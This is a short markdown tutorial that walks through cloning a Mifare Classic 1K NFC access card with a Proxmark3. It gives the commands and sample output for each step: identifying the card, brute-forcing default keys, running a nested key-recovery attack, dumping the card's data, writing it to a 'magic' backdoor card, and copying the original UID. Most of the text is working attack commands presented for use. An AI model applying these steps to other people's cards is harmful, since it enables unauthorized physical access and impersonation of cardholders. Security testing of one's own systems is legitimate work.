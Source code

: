 ```yaml
---
description: How to clone Mifare Classic 1K ISO14443A NFC Tag with proxmark3
---
```


# Mifare Classic 1K ISO14443A

## How to clone Mifare Classic 1K ISO14443A NFC Tag

```bash
proxmark3> hf search
```

Which results in a response along the lines of:

```bash
 #db# DownloadFPGA(len: 42096)
 UID : de 0f 3d cd
ATQA : 00 04  
 SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: HARDENED (hardnested)
Valid ISO14443A Tag Found - Quiting Search
```

As we can see the output `ISO14443A Tag Found` it's `Mifare 1k` card.

This also shows us the UID `de0f3dcd` of the card, which we’ll need later.

From there we can find keys in use by checking against a list of default keys (hopefully one of these has been used)

```bash
proxmark3> hf mf chk * ?
```

This should show us the key we require looking something like

```bash
No key specified, trying default keys  
chk default key[ 0] ffffffffffff  
chk default key[ 1] 000000000000  
chk default key[ 2] a0a1a2a3a4a5  
chk default key[ 3] b0b1b2b3b4b5  
chk default key[ 4] aabbccddeeff  
chk default key[ 5] 4d3a99c351dd  
chk default key[ 6] 1a982c7e459a  
chk default key[ 7] d3f7d3f7d3f7  
chk default key[ 8] 714c5c886e97  
chk default key[ 9] 587ee5f9350f  
chk default key[10] a0478cc39091  
chk default key[11] 533cb6c723f6  
chk default key[12] 8fd0a4f256e9  
--sector: 0, block:  3, key type:A, key count:13
Found valid key:[ffffffffffff]  
...omitted for brevity...
--sector:15, block: 63, key type:B, key count:13
Found valid key:[ffffffffffff]
```

This shows a key of `ffffffffffff`, which we can plug into the next command, which dumps keys to file `dumpkeys.bin`.

```bash
proxmark3> hf mf nested 1 0 A ffffffffffff d
```

Now to dump the contents of the card.  
This dumps data from the card into `dumpdata.bin`

```bash
proxmark3> hf mf dump
```

At this point we’ve got everything we need from the card, we can take it off the reader.

To copy that data onto a new card, place the [(Chinese backdoor) card](https://amzn.to/2XdKnfv){target=_blank} on the [Proxmark](https://amzn.to/3AcCQvL){target=_blank}.

This restores the dumped data onto the new card. Now we just need to give the card the UID we got from the original hf search command

```bash
proxmark3> hf mf restore 1
```

Copy the UID of the original card

```bash
proxmark3> hf mf csetuid `de0f3dcd`
```

We’re done.
